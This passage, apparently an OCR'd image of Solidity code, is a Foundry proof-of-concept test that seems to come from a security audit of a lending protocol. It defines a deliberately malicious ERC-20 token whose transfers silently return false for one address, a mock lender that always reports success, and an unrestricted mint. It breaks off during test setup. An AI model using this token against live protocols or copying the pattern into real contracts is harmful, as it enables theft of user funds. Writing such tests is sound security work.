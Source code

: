 ```solidity 
    function approve(address spender, uint256 amount) public override returns (bool) {
        _allowances[msg.sender][spender] = amount;
        emit Approval(msg.sender, spender, amount);
        return true;
    }
    
    function mint(address to, uint256 amount) public {
        _balances[to] += amount;
        _totalSupply += amount;
        emit Transfer(address(0), to, amount);
    }
    
    // This is where the exploit happens - returns false instead of reverting
    function transfer(address to, uint256 amount) public override returns (bool) {
        // Always return false for specific recipients to simulate silent failure
        if (to == address(0x1234)) {
            return false; // Silent failure
        }
        
        _balances[msg.sender] -= amount;
        _balances[to] += amount;
        emit Transfer(msg.sender, to, amount);
        return true;
    }
    
    function transferFrom(address from, address to, uint256 amount) public override returns (bool) {
        // Same behavior as transfer
        if (to == address(0x1234)) {
            return false; // Silent failure
        }
        
        _allowances[from][msg.sender] -= amount;
        _balances[from] -= amount;
        _balances[to] += amount;
        emit Transfer(from, to, amount);
        return true;
    }
}

// Mock LToken that always succeeds on borrow
contract MockLToken {
    function borrow(uint256) external pure returns (uint256) {
        return 0; // Success
    }
    
    function accrueInterest() external pure returns (uint256) {
        return 0; // Success
    }
}

contract TransferExploitTest is Test {
    CoreRouter public coreRouter;
    LendStorage public lendStorage;
    MaliciousToken public maliciousToken;
    MockLToken public mockLToken;
    address public attacker;
    address public victim;
    address public crossChainRouter;
    
    function setUp() public {
        // Deploy protocol components
        Deploy deploy = new Deploy();
```